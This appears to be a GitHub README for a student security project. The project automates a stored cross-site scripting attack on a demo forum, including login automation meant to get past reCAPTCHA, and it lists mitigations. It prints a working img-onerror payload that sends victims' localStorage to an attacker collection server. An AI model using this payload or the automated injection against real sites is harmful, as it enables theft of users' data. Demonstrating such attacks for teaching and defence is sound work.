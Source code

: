 # Cross-Site Scripting (XSS) Attack

This Flask web app demonstrates an automated Cross-Site Scripting (XSS) attack using Playwright to inject a payload into
the forum application, with receive and log the exfiltrated data.

> Live demo hosted at: 🔗 https://elec0138-xss.meeska.me/

![image](https://github.com/user-attachments/assets/1c41c26f-7b17-459a-93f6-c5315ea00db9)

## 🛑 Attack Flow

The attack works as follows:

1. **Automated Login:** The script uses Playwright to automate the login process on the target
   website [https://elec0138-forum.0138019.xyz/](https://elec0138-forum.0138019.xyz/). It fills in the username and
   password fields and clicks the sign-in button. The automation aims to bypass protections reCAPTCHA, allowing
   unattended access.

2. **XSS Payload Injection:** After logging in, the script navigates to the forum section and posts a message containing
   a malicious XSS payload.

3. **Payload Details:** The payload is an `<img>` tag with an invalid `src` attribute and an `onerror` JavaScript
   handler:

   ```html
   <img src="x" onerror="const d={dt:'elec0138-xss',ls:JSON.stringify(localStorage)};new Image().src='https://elec0138-xss.meeska.me/collect?'+new URLSearchParams(d)">
   ```
    * When a victim's browser attempts to load this image, the invalid `src="x"` triggers the `onerror` event.
    * The JavaScript code within `onerror` accesses the victim's `localStorage`, and serializes its contents into a JSON
      string.
    * It then creates a new image request (`new Image().src`) that sends this data as URL parameters to an
      attacker-controlled server: `https://elec0138-fc.meeska.me/collect`

## 🛡️ Mitigation

To intercept XSS attacks, defense should be implemented in layers: data input -> data storage -> data output -> browser
execution.

1. **Input Validation & Output Encoding**
    - Sanitize all user-supplied input on the server before storing or rendering it. Using mature libraries such as
      `DOMPurify`, `Bleach`, `OWASP Java HTML Sanitizer`.
    - Use a proven templating engine or encoding library to HTML-encode any data reflected back into pages.
2. **Content Security Policy (CSP)**
    - Deploy a strict CSP header that forbids inline JavaScript (e.g. `script-src 'self'`) and only allows scripts from
      trusted origins.
    - Consider using `report-only` mode first to monitor violations, then enforce once you've whitelisted all necessary
      resources.
3. **HttpOnly & Secure Cookie Flags**
    - Mark authentication/session cookies with `HttpOnly` so they cannot be accessed via JavaScript.
    - Add the `Secure` flag to ensure cookies are only sent over HTTPS, and `SameSite=strict` or `lax` to limit
      cross-site requests.

## 📁 Project Structure

The project consists of two main parts:

### 1. XSS Attack Automation Tool

An automated script that injects XSS payloads into the target application:

```
app/xss_attack_tool/
├── __init__.py          # Package initialization
└── main.py              # Playwright-based automation script for XSS injection
```

### 2. Flask Web Demo Application

The web application serves as a demonstration platform for the XSS attack and collects exfiltrated data:

```
app/
├── __init__.py          # Flask application initialization
├── config.py            # Configuration settings
├── models.py            # Data models for storing collected information
├── routes.py            # Web routes and endpoints
├── attack_utils.py      # Utility functions for the attack
├── templates/           # HTML templates for the web interface
└── static/              # Static assets (CSS, JS, images)
```

## ⚙️ Installation

1. Create a virtual environment

2. Install dependencies:

   ```bash
   pip install -r requirements.txt
   ```

3. Configure the application by add the environment variables to the `.env` file

4. Run the application:

   ```
   flask run
   ```

## 🐋 Deployment

1. Build the Docker image:
   ```bash
   docker build -t your-image-name .
   ```
2. Run the Docker container:
   ```bash
   docker run -p <host-port>:5000 \
     -e ATTACK_BACKEND_URL=<your_backend_url_for_this_app> \
     -e <VAR_NAME>=<VAR_VALUE> \
     your-image-name
   ```

## 🔐 Environment Variables

| Variable             | Description                                                  | Required |
| -------------------- | ------------------------------------------------------------ | :------: |
| `ATTACK_TARGET_URL`  | URL of the target forum website (default: https://elec0138-forum.0138019.xyz/) |    ❌     |
| `ATTACK_USERNAME`    | Username for logging into the target forum (default: xss_demo) |    ❌     |
| `ATTACK_PASSWORD`    | Password for logging into the target forum (default: xss_demo_password) |    ❌     |
| `ATTACK_BACKEND_URL` | URL where the exfiltrated data will be sent to (typically the deployment address of this app instance + `/collect`, e.g., `https://elec0138-xss.meeska.me/collect`) |    ✅     |

